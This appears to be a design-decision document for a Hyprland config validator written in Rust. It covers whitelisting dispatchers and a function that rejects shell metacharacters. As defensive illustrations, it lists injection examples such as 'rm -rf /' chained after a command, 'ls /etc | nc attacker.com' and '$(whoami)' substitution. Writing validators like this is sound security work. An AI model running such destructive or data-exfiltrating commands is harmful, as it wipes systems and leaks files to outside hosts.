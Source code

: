 **Alternatives Considered**:
1. **Blacklist dangerous dispatchers** (Rejected)
   - Impossible to enumerate all dangerous commands
   - Trivial to bypass (aliases, absolute paths, shell builtins)
   - Example: Blacklist `rm` → attacker uses `perl -e 'system("rm -rf /")'`

2. **No validation** (Rejected)
   - Trusts user to not make mistakes
   - Vulnerable to copy-paste attacks (malicious configs online)
   - Doesn't help users learn safe practices

**Maintenance Cost**: Must update whitelist when Hyprland adds new dispatchers (acceptable trade-off for security).

**Key Insight**: **Whitelists are secure by default**; blacklists are insecure by default.

---

### Shell Metacharacter Detection

**File**: `src/core/validator.rs:93-109`

**Decision**: Check for dangerous characters: `;`, `|`, `&`, `$`, backticks, quotes.

```rust
const DANGEROUS_CHARS: &[char] = &[
    ';', '|', '&', '$', '`', '(', ')', '{', '}',
    '[', ']', '<', '>', '\\', '"', '\'', '\n', '\r',
];

pub fn check_shell_metacharacters(input: &str) -> Result<(), ValidationError> {
    for ch in DANGEROUS_CHARS {
        if input.contains(*ch) {
            return Err(ValidationError::ShellMetacharacters(input.to_string()));
        }
    }
    Ok(())
}
```

**Rationale**:
- **Fast**: Simple character search, O(n) where n = input length
- **Correct**: Blocks all common injection vectors
- **Conservative**: False positives acceptable (security over convenience)

**Coverage**:
- `;` → Command chaining: `firefox; rm -rf /`
- `|` → Piping: `ls /etc | nc attacker.com`
- `&` → Background execution: `firefox & malware`
- `$` → Variable substitution: `firefox $(whoami)`
- backticks → Command substitution: ``firefox `whoami` ``
- `()` → Subshell: `(firefox; rm -rf /)`

**False Positives**:
- Legitimate use of quotes in arguments: `--title "My Window"`
- **Workaround**: Use single words or hyphens: `--title MyWindow`
- **Trade-off**: Acceptable for security (most configs don't need quotes)

